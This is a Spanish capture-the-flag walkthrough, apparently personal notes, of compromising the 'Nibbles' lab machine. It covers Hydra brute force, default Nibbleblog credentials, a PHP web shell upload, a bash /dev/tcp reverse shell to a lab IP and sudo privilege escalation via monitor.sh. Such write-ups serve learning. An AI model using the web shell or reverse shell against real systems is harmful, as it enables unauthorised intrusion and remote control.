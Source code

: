 Lo primero será hacer los reconocimientos de siempre:
![[Pasted image 20221222023355.png]]
![[Pasted image 20221222023359.png]]
![[Pasted image 20221222023402.png]]
![[Pasted image 20221222023407.png]]
Esto es lo que nos encontramos si accedemos al navegador:
![[Pasted image 20221222023414.png]]
Si miramos el código fuente nos encontramos con esto, diciendo que hay un directorio oculto:
![[Pasted image 20221222023420.png]]
Por tanto vamos a acceder a él:
![[Pasted image 20221222023426.png]]
Y tenemos esto que nos dice powered by nibbleblog:
![[Pasted image 20221222023432.png]]
Por tanto vamos a buscar exploits con searchsploit, donde vemos que hay 2:
![[Pasted image 20221222023439.png]]
También podemos hacer fuzzing en esta nueva dirección tanto con wfuzz como con dirb, y veremos como tenemos varias cosas interesantes, entre ellas un apartado de admin y de content, donde posiblemente podamos acceder posteriormente para ejecutar los archivos maliciosos subidos a la máquina víctima:[[WFUZZ]]
![[Pasted image 20221222023446.png]]
Vamos a entrar en admin:
![[Pasted image 20221222023453.png]]
Y en este panel de autenticación podemos probar en utilizar hydra para hacer un ataque de fuerza bruta:[[2 - Hydra - Ataque de Fuerza Bruta contra panel de login web]]
![[Pasted image 20230321130225.png]]
Y nos encuentra muchas credenciales:
![[Pasted image 20230321130247.png]]
Pero si probamos alguna de estas, por ejemplo la password lovely, nos va a dar un error porque esta web cuenta con un sistema de protección contra ataques de fuerza bruta:
![[Pasted image 20230321130347.png]]
Por tanto, tendremos que buscar por internet credenciales por defecto en nibbleblog, veremos como el usuario es admin, y luego probamos en la contraseña el nombre de la máquina (nibbles):
![[Pasted image 20221222023501.png]]
Y ya estamos dentro:
![[Pasted image 20221222023507.png]]
Tenemos un apartado de subir archivos (my image), por tanto vamos a subir un php malicioso que nos permita ejecutar comandos remotamente:
![[Pasted image 20221222023514.png]]
Creamos el php malicioso: [[0 - Consideraciones Previas#Código PHP malicioso para ganar Reverse Shell]]
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Lo subimos a la web y después accederemos al archivo dentro del directorio content, que también lo encontramos antes con wfuzz; y tras navegar por los directorios encontramos un archivo image.php que intuimos que es el que subimos:
![[Pasted image 20221222023527.png]]
Una vez subido, en la dirección ponemos ?cmd=whoami y se nos ejecutará este comando:
![[Pasted image 20221222023533.png]]
Ahora que tenemos ejecución remota de comandos, podemos mandarnos una reverse shell, por tanto vamos a url encodear el comando de la reverse shell con burpsuite para que nos funcione correctamente:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>&1'
```
![[Pasted image 20221222023541.png]]
Y nos ponemos a escuchar con netcat:
![[Pasted image 20221222023549.png]]
Y pegamos el comando encodeado en el navegador:
![[Pasted image 20221222023554.png]]
Y ya tenemos la reverse shell:
![[Pasted image 20221222023600.png]]
Y navegando por los directorios obtenemos la flag:
![[Pasted image 20221222023606.png]]
Ahora para escalar privilegios, si ejecutamos el comando sudo -l, vemos que podemos ejecutar un script que se llama monitor.sh:
![[Pasted image 20221222025948.png]]
Pero vemos que para ejecutar este script tenemos que sacarlo del archivo comprimido de donde se encuentra:
![[Pasted image 20221222030154.png]]
Para sacarlo utilizamos el comando unzip:
![[Pasted image 20221222030223.png]]
Y ahora ya podemos acceder a su interior y llegamos al script:
![[Pasted image 20221222030302.png]]
Ahora vamos a añadir este fragmento de código al script para que al ejecutarlo nos lande una shell como root:
![[Pasted image 20230315114911.png]]
Otorgamos permisos de ejecución:
![[Pasted image 20221222032304.png]]
Lo lanzamos y deberíamos ser root:
![[Pasted image 20221222032352.png]]
![[Pasted image 20230315114933.png]]

